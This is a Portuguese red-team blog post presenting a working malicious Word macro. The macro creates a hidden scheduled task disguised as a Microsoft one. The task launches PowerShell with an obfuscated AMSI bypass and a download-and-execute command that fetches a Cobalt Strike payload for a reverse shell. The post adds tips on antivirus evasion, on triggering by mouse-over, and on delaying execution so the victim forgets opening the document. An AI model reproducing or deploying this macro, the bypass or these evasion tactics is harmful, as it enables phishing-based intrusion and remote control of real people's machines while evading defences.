


## Documentos Maliciosos
> Como esse é o primeiro post falando sobre documentos maliciosos, vou descorrer um pouco mais.

A ideia de criação de um documento malicioso (maldoc) começou a tomar conta de minha cabeça depois de um engajamento de Red Team onde não tive sucesso. Não conseguimos encontrar vulnerabilidades externas em tempo hábil e a única alternativa era tentar por outros meios.

Por e-mail consegui contato com uma pessoa do RH da empresa. Estava tudo encaminhado para ela abrir um arquivo que eu enviasse - tudo exceto o fato de eu não ter nenhum arquivo que fosse "malicioso" (no contexto malicioso se refere a um arquivo que me retornasse um shell reverso) mas ao mesmo tempo indetectável pelo antivirus.

Finalmente, não conseguimos dominar essa técnica a tempo, o período de teste terminou e basicamente entregamos um relatório de Pentest + VA do ambiente externo. #vergonha

Desse dia em diante me dediquei a conhecer artefatos maliciosos que eram usados na selva (internet). Estudei bastante material disponível internet a fora e labutei com bypass do AMSI para executar comandos maliciosos no powershell. Encontrei no treinamento de "Análise de Documentos Maliciosos" ministrado por Alexandre Borges da Blackstorm Security (curso em pt_BR) muito conhecimento sobre como os artefatos eram construídos por atacantes reais. Além de muita, MUITA, conversa com outras pessoas que tinham algum conhecimento do tema.

Após muito pesquisar e bater cabeça cheguei (ontem) a um artefato que bypassou completamente o Windows Defender + AMSI e me deu um shell reverso (estou usando o cobalt strike).


### O Artefato
***

Chega de história, vamos ao maldoc de fato. O artefato abaixo é basicamente uma macro do Word que, ao ser executado, cria uma tarefa no agendador de tarefas do windows e, depois de um tempo determinado (no exemplo está 5 segundos), a tarefa é executada.

```terminal
Sub a()

    Set service = CreateObject("Schedule.Service")
    Call service.Connect
    Dim td: Set td = service.NewTask(0)
    td.RegistrationInfo.Author = "Microsoft Corporation"
    td.settings.StartWhenAvailable = True
    td.settings.Hidden = True
    td.settings.WakeToRun = True
    Dim triggers: Set triggers = td.triggers
    Dim trigger: Set trigger = triggers.Create(1)
    Dim startTime: ts = DateAdd("s", 5, Now)
    startTime = Year(ts) & "-" & Right(Month(ts), 2) & "-" & Right(Day(ts), 2) & "T" & Right(Hour(ts), 2) & ":" & Right(Minute(ts), 2) & ":" & Right(Second(ts), 2)
    trigger.StartBoundary = startTime
    trigger.ID = "TimeTriggerId"
    Dim Action: Set Action = td.Actions.Create(0)
    Action.Path = "powershell.exe"
    Action.Arguments = "[console]::WindowRight=0; [console]::WindowWidth=1; [console]::WindowHeight=1; [console]::BufferWidth=[console]::WindowWidth; -nologo -windowstyle Hidden [Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.'+$([chAR]([bytE]0x41)+[ChAR]([byte]0x6D)+[CHAR](121-6)+[cHar](159-54))+'Utils').GetField(''+$([CHar]([byTE]0x61)+[cHar](3379/31)+[chAr](119-4)+[CHar](2415/23))+'Context',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x2F0F6961);iex(New-Object Net.WebClient).DownloadString('<URL//Para/o/Payload/Malicioso>')"
    Call service.GetFolder("\").RegisterTaskDefinition("UpdateTask", td, 6, , , 3)

End Sub

Private Sub Image1_Click()
a
End Sub

Private Sub Image1_MouseMove(ByVal Button As Integer, ByVal Shift As Integer, ByVal X As Single, ByVal Y As Single)
a
End Sub

```

### Considerações
**1.** Não uso a função Auto_Open() do documento. Ao invés disso criei uma função **a()** que é _trigada_ após uma ação do usuário.

**2.** Uso um controle ActiveX que será usado para 
_trigar_ a funçao **a()**. Para incluir o controle ActiveX no documento fiz o seguinte:



**3.** Perceba que a macro contém a função **Image1_MouseMove(ByVal Button As Integer, ByVal Shift As Integer, ByVal X As Single, ByVal Y As Single)**. Ela é a responsável por capturar o evento gerando quando o mouse passa por cima do controle ActiveX.

**4.** Ao passar o mouse por cima do controle ActiveX a função **a()** será invocada. É assim que a macro maliciosa entra em ação.

É importante lembrar que ainda assim o usuário precisará primeiro clicar em "Habilitar Conteúdo" para dar ao documento a permissão de executar a macro.

### Ajustes Importantes
#### 1) Momento da Execução
***
Quando for usar esse artefato, seria interessante ajustar alguns parâmetros no mesmo. Por exemplo, a linha:

```terminal
Dim startTime: ts = DateAdd("s", 5, Now)
```

É responsável por defir após quanto tempo depois de criada a tareda deve ser executada. Esse parâmetro está definido para 5 segundos (por que estou usando em laboratório e não quero esperar muito tempo para executar a tarefa). Em um engajamento real, seria interessante definir um tempo maior - tempo suficiente para a pessoa "esquecer" que abriu um documento potencialmente malicioso.

Eu considero algo em torno de 2 horas um tempo interessante por que em 2 horas a pessoa já terá executado várias outras atividades, talvez terá aberto vários outros arquivos e será difícil fazer a correlação com a tarefa maliciosa (caso de alguma maneira ela perceba a execução da mesma).

#### 2) Visibilidade ao Executar
***
Já dediquei uma quantidade razoável de tempo para tornar a execução da tarefa invisível para o usuário. Mas até o momento, quando a tarefa vai ser executada, uma tela do powershell abre e fecha rapidamente na tela do usuário. Essa é a parte do código onde estou lutando para tentar esconder a ação:

```terminal
[console]::WindowRight=0; [console]::WindowWidth=1; [console]::WindowHeight=1; [console]::BufferWidth=[console]::WindowWidth; -nologo -windowstyle Hidden
```

#### 3) Bypass do AMSI
***
Esse tópico com certeza terá um post só para ele em breve. Mas nesse maldoc, estou usando uma técnica de bypass para evitar que o powershell bloqueie o comando onde faço o download do payload do cobalt strike. Essa é aparte do código onde faço o bypass do AMSI:

```terminal
[Runtime.InteropServices.Marshal]::WriteInt32([Ref].Assembly.GetType('System.Management.Automation.'+$([chAR]([bytE]0x41)+[ChAR]([byte]0x6D)+[CHAR](121-6)+[cHar](159-54))+'Utils').GetField(''+$([CHar]([byTE]0x61)+[cHar](3379/31)+[chAr](119-4)+[CHar](2415/23))+'Context',[Reflection.BindingFlags]'NonPublic,Static').GetValue($null),0x2F0F6961);
```

Quando a linha acima é inserida no powershell, os comandos que seriam marcados como maliciosos pelo antivirus já não serão mais identificados assim. Por isso podemos usar o comando clássico de fazer download e executar um script powershell malicioso:

```terminal
iex(New-Object Net.WebClient).DownloadString('<URL//Para/o/Payload/Malicioso>')
```
Quando a tarefa agendada executar esse comando, o shell reverso deverá ser entregue ao atacante. Resultado do scan feito por alguns antivirus:

